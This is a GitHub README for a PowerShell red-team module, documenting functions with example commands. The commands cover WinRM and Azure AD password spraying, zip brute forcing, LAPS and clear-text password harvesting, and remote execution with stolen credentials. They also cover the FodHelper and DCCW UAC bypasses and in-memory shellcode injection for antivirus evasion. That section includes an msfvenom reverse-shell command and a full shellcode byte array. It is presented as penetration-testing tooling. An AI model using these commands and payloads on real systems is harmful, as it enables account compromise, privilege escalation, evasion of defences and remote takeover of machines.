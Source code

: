 # PowerShell-Red-Team-Enum
Collection of PowerShell functions a Red Teamer may use to collect data from a machine or gain access to a target. I added ps1 files for the commands that are included in the RedTeamEnum module. This will allow you to easily find and use only one command if that is all you want. If you want the entire module perform the following actions after downloading the RedTeamEnum directory and contents to your device.
```powershell
C:\PS> robocopy .\RedTeamEnum $env:USERPROFILE\Documents\WindowsPowerShell\Modules\RedTeamEnum *
# This will copy the module to a location that allows you to easily import it. If you are using OneDrive sync you may need to use $env:USERPROFILE\OneDrive\Documents\WindowsPowerShell\Modules\RedTeamEnum instead.

C:\PS> Import-Module -Name RedTeamEnum -Verbose
# This will import all the commands in the module. 

C:\PS> Get-Command -Module RedTeamEnum
# This will list all the commands in the module.
```

- Convert-Base64.psm1 is a function as the name states for encoding and/or decoding text into Base64 format.
```powershell
C:\PS> Convert-Base64 -Value "Convert me to base64!" -Encode

C:\PS> Convert-Base64 -Value "Q29udmVydCBtZSB0byBiYXNlNjQh" -Decode
```

- Convert-SID.ps1 is a function that converts SID values to usernames and usernames to SID values
```powershell
C:\PS> Convert-SID -Username tobor
# The above example converts tobor its SID value

C:\PS> Convert-SID -SID S-1-5-21-2860287465-2011404039-792856344-500
# The above value converts the SID value to its associated username
```

- Test-BruteZipPassword is a function that uses a password file to brute force a password protected zip file using 7zip
```powershell
C:\PS> Test-BruteForceZipPassword -PassFile 'C:\Users\USER\Downloads\Applications\pass.txt' -Path 'C:\Users\USER\Downloads\Applications\KiTTY.7z' -ZipExe 'C:\Program Files\7-Zip\7z.exe'
# This example uses the passwords in the pass.txt file to crack the password protected KiTTY.7z file
```

- Test-BruteForceCredentials is a function that uses WinRM to brute force a users password.
```powershell
C:\PS> Test-BruteForceCredentials -ComputerName DC01.domain.com -UseSSL -Username 'admin','administrator' -Passwd 'Password123!' -SleepMinutes 5
# This example will test the one password defined against both the admin and administrator users on the remote computer DC01.domain.com using WinRM over HTTPS with a time interval of 5 minutes between each attempt

C:\PS> Test-BruteForceCredentials -ComputerName File.domain.com -UserFile C:\Temp\users.txt -PassFile C:\Temp\rockyou.txt 
# This example will test every password in rockyou.txt against every username in the users.txt file without any pause between tried attempts
```

- Get-LdapInfo is a function I am very proud of for performing general LDAP queries. Although only two properties will show in the output, all of the properties associated with object can be seen by piping to Select-Object -Property * or using the -Detailed switch parameter.
```powershell
C:\PS> Get-LdapInfo -Detailed -SPNNamedObjects
# The above returns all the properties of the returned objects
#
C:\PS> Get-LdapInfo -DomainControllers | Select-Object -Property 'Name','ms-Mcs-AdmPwd'
# If this is run as admin it will return the LAPS password for the local admin account
#
C:\PS> Get-LdapInfo -ListUsers | Where-Object -Property SamAccountName -like "user.samname"
# NOTE: If you include the "-Detailed" switch and pipe the output to where-object it will not return any properties. If you wish to display all the properties of your result it will need to be carried out using the below format
#
C:\PS> Get-LdapInfo -AllServers | Where-Object -Property LogonCount -gt 1 | Select-Object -Property * 
 
```

- Get-NetworkShareInfo is a cmdlet that is used to retrieve information and/or brute force discover network shares available on a remote or local machine
```powershell
C:\PS> Get-NetworkShareInfo -ShareName C$
# The above example returns information on the share C$ on the local machine
#RESULTS
Name         : C$
InstallDate  :
Description  : Default share
Path         : C:\
ComputerName : TOBORDESKTOP
Status       : OK

C:\PS> Get-NetworkShareInfo -ShareName NETLOGON,SYSVOL,C$ -ComputerName DC01.domain.com, DC02.domain.com, 10.10.10.1
# The above example disocvers and returns information on NETLOGON, SYSVOL, and C$ on the 3 remote devices DC01, DC02, and 10.10.10.1
```

- Test-PrivEsc is a function that can be used for finding whether WSUS updates over HTTP are vulnerable to PrivEsc, Clear Text credentials are stored in common places,  AlwaysInstallElevated is vulnerable to PrivEsc, Unquoted Service Paths exist, and enum of possible weak write permissions for services.
```powershell
 C:\PS> Test-PrivEsc
```

- Get-InitialEnum is a function for enumerating the basics of a Windows Operating System to help better display possible weaknesses.
```powershell
 C:\PS> Get-InitialEnum
```

- Start-SimpleHTTPServer is a function used to host an HTTP server for downloading files. It is meant to be similart to pythons SimpleHTTPServer module. Directories are not traversable through the web server. The files that will be hosted for download will be from the current directory you are in when issuing this command.
```powershell
C:\PS> Start-SimpleHTTPServer
Open HTTP Server on port 8000

#OR
C:\PS> Start-SimpleHTTPServer -Port 80
# Open HTTP Server on port 80
```

- Invoke-PortScan.ps1 is a function for scanning all possible TCP ports on a target. I will improve in future by including UDP as well as the ability to define a port range. This one is honestly not even worth using because it is very slow. Threading is a weak area of mine and I plan to work on that with this one.
```powershell
 C:\PS> Invoke-PortScan -IpAddress 192.168.0.1
```

- Invoke-PingSweep is a function used for performing a ping sweep of a subnet range. 
```powershell
C:\PS> Invoke-PingSweep -Subnet 192.168.1.0 -Start 192 -End 224 -Source Singular
# NOTE: The source parameter only works if IP Source Routing value is "Yes"

C:\PS> Invoke-PingSweep -Subnet 10.0.0.0 -Start 1 -End 20 -Count 2
# Default value for count is 1

C:\PS> Invoke-PingSweep -Subnet 172.16.0.0 -Start 64 -End 128 -Count 3 -Source Multiple
```

- Invoke-UseCreds is a function I created to simplify the process of using obtained credentials during a pen test. I use -Passwd instead of -Password because that parameter when defined should be configured as a secure string which is not the case when entering a value into that filed with this function. It gets converted to a secure string after you set that value.
```powershell
# The below command will use the entered credentials to open the msf.exe executable as the user tobor
C:\PS> Invoke-UseCreds -Username 'OsbornePro\tobor' -Passwd 'P@ssw0rd1' -Path .\msf.exe -Verbose
```
This cmdlet can also be used to execute files located on your local machine and execute them on a remote machine
```powershell
# The below command will use the entered credentials to open the exploit.ps1 executable as the user tobor on DC01 and DC02 using WinRM
C:\PS> Invoke-UseCreds -Username 'OsbornePro\tobor' -Passwd 'P@ssw0rd1' -Path .\exploit.ps1 -ComputerName "DC01.domain.com","DC02.domain.com"

# The below command will use the entered credentials to open the exploit.ps1 executable as the user tobor on DC01 and DC02 using WinRM over HTTPS
C:\PS> Invoke-UseCreds -Username 'OsbornePro\tobor' -Passwd 'P@ssw0rd1' -Path .\exploit.ps1 -ComputerName "DC01.domain.com","DC02.domain.com" -UseSSL
```

- Invoke-FodHelperBypass is a function that tests whether or not the UAC bypass will work before executing it to elevate priviledges. This of course needs to be run by a member of the local administrators group as this bypass elevates the priviledges of the shell you are in. You can define the program to run which will allow you to execute generaate msfvenom payloads as well as cmd or powershell or just issuing commands.
```powershell
C:\PS> Invoke-FodHelperBypass -Program "powershell" -Verbose
# OR 
C:\PS> Invoke-FodHelperBypass -Program "cmd /c msf.exe" -Verbose
```

- Invoke-InMemoryPayload is used for AV Evasion using an In-Memory injection. This will require the runner to generate an msfvenom payload using a command similar to the example below, and entering the "[Byte[]] $buf" variable into Invoke-InMemoryPayloads "ShellCode" parameter.
```bash
# Generate payload to use
msfvenom -p windows/meterpreter/shell_reverse_tcp LHOST=192.168.137.129 LPORT=1337 -f powershell
```
Start a listener, use that value in the "ShellCode" parameter, and run the command to gain your shell. This will also require certain memory protections to not be enabled. 
__NOTE:__ Take note there are __NOT ANY DOUBLE QUOTES__ around the ShellCode variables value. This is because it is expecting a byte array.
```powershell
C:\PS> Invoke-InMemoryPayload -Payload 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x0,0x0,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x1,0x0,0x0,0x49,0x89,0xe5,0x49,0xbc,0x2,0x0,0x5,0x39,0xc0,0xa8,0x89,0x81,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x7,0xff,0xd5,0x4c,0x89,0xea,0x68,0x1,0x1,0x0,0x0,0x59,0x41,0xba,0x29,0x80,0x6b,0x0,0xff,0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x2,0x0,0x0,0x49,0xb8,0x63,0x6d,0x64,0x0,0x0,0x0,0x0,0x0,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,0x57,0x57,0x4d,0x31,0xc0,0x6a,0xd,0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,0x24,0x54,0x1,0x1,0x48,0x8d,0x44,0x24,0x18,0xc6,0x0,0x68,0x48,0x89,0xe6,0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0xe,0x41,0xba,0x8,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x59,0x41,0x89,0xda,0xff,0xd5 -Verbose
```
![Invoke-InMemoryPayload Image](https://raw.githubusercontent.com/tobor88/PowerShell-Red-Team/master/InvokeInMemPayloadImg.png)

- Get-ClearTextPassword is used to obtain cached passwords, SNMP passwords in the registry, auto logon passwords, and WiFi passwords that are stored on a device. Only the current users passwords are able to be pulled from saved locations
```powershell
Get-ClearTextPassword -All
```

The above command returns all the possible results the cmdlet is capable of. Individual locations can be searched as well. 
For Example
```powershell
Get-ClearTextPassword -AutoLogon
```

More than one location can be defined in your search
For Example
```powershell
Get-ClearTextPassword -WiFi -SNMP -Chrome -PasswordVault
```

- Invoke-AzurePasswordSpray can be used to perform a password dictionary attack against a single user or multiple users while testing credentials against Azure AD.
```powershell
Invoke-AzurePasswordSpray -UserName "rob@domain.com","john@domain.com" -Passwd 'Password123!','asdf123!'
# This Example tests the passwords defined against the list of usernames defined

Invoke-AzurePasswordSpray -UserName "rob@domain.com","john@domain.com" -Passwd 'Password123!','asdf123!' -SleepSeconds 60
# This Example tests the passwords defined against the list of usernames defined with a 60 second wait before the next sign in attempt

Invoke-AzurePasswordSpray -UserName "rob@domain.com","john@domain.com" -Passwd 'Password123!','asdf123!' -SleepSeconds 60 -RoundRobin
# This Example tests the passwords defined against the list of usernames defined with a 60 second wait before the next sign in attempt. This performs authentication attempts in a Round Robin fashion for the defined usernames

$UserNames = "rob@domain.com","john@domain.com","dixie@domain.com","chris@domain.com"
$UserNames | Invoke-AzurePasswordSpray -Passwd "Password123!" -RoundRobin
# This Example tests the passwords defined against the list of usernames defined in a Round Robin fashion
```

- Test-KerberosDoubleHop is used to discover Computers, Users, and/or Administrator accounts who are vulberable to a Kerberos Double Hop
```powershell
Test-KerberosDoubleHop -All
# This example checks for and displays Computers, Users, and Admin AD Objects vulnerable to a Kerberos Double Hop on the domain controller you are logged into

Test-KerberosDoubleHop -Server DC01.domain.com -UserResults
# This example uses WinRM to display User AD Objects vulnerable to a Kerberos Double Hop on the remote domain controller DC01.domain.com

Test-KerberosDoubleHop -Server DC01.domain.com -UseSSL -AdminResults
# This example uses WinRM over HTTPS to display Admin AD Objects vulnerable to a Kerberos Double Hop on the remote domain controller DC01.domain.com

Test-KerberosDoubleHop -ComputerResults -AdminResults
# This example checks for and displays Computer and Admin AD Objects vulnerable to a Kerberos Double Hop on the domain controller you are logged into
```

- Invoke-DccwUACBypass is used to bypass UAC without a password if you are a member of an administrator group. This exploits DCCW's functionality to achieve this task. If the settings do not allow for this to work this cmdlet will stop execution. If the settings do allow this to work it will tell you what to do to defend against this.
```powershell
Invoke-DccwUACBypass -Program "cmd /c start powershell"
# This example exploits the DCCW UAC bypass method to open PowerShell with administrative privileges

Invoke-DccwUACBypass -Program "cmd /c start mfs.exe"
# This example exploits the DCCW UAC bypass method to execute the payload msf.exe with administrative privileges
```

For more information on Start-Listener, Start-Bind, and Invoke-ReversePowerShell see [https://github.com/tobor88/ReversePowerShell](https://github.com/tobor88/ReversePowerShell)